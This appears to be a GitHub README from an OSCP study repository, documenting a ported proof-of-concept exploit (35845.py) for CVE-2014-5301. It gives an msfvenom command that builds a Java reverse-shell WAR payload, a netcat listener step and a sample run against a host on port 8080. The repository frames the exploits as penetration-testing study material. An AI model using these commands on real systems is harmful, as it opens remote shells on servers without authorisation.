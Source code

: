 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: url

### Usage
```
35845.py file.war host port
```

First create reverse shell payload

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```
Start netcat listener then run the script

```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!
